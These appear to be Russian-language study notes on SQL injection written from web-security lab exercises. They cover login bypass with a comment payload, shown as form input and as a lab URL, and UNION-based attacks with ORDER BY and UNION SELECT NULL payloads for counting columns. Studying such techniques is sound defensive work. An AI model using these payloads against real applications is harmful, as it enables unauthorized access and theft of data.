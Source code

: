 SQL-инъекция, используемая для изменния логики работы приложения. 

Например, в формах авторизации обход проверки.

##### Варианты эксплуатации

Ввести в поле авторизации:
	
	login: administrator'--
	password:123123123123
	
Аналогично в GET-запросе:

	https://0af3006804f1a5c7c21a354d00fa00cd.web-security-academy.net/login?login=administrator'--&password=123123123123

##### Особенности

Для эксплуатации уязвимости нужно понимание логики работы приложения.

--------------------------------------------------------------

#### SQLi UNION attacks

В случаях, когда результаты SQL-запроса возвращаются в ответах приложения, злоумышленник может использовать уязвимость SQL-инъекции для извлечения данных из других таблиц в базе данных. 

Это делается с помощью ключевого слова UNION, которое позволяет выполнить дополнительный запрос SELECT и добавить результаты к исходному запросу.

	SELECT a, b FROM table1 UNION SELECT c, d FROM table2
	
Этот SQL-запрос вернет один результирующий набор с двумя столбцами, содержащими значения из столбцов a и b в таблице1 и столбцов c и d в таблице2.

Чтобы выполнить атаку UNION с внедрением SQL-кода, вам необходимо убедиться, что ваша атака соответствует этим двум требованиям. Обычно это включает в себя выяснение:

1. Сколько столбцов возвращается из исходного запроса?
2. Какие столбцы, возвращенные исходным запросом, имеют подходящий тип данных для хранения результатов внедренного запроса?

##### Варианты эксплуатации

1. Определение количества столбцов, необходимых для атаки UNION с SQL-инъекцией:

		' ORDER BY 1--
		' ORDER BY 2--
		' ORDER BY 3--
		etc. до тех пор пока не появиться ошибка, типа "The ORDER BY position number 3 is out of range of the number of items in the select list."

	или:

		' UNION SELECT NULL--
		' UNION SELECT NULL,NULL--
		' UNION SELECT NULL,NULL,NULL--
		etc. до тех пор пока не появиться ошибка, типа "All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists."
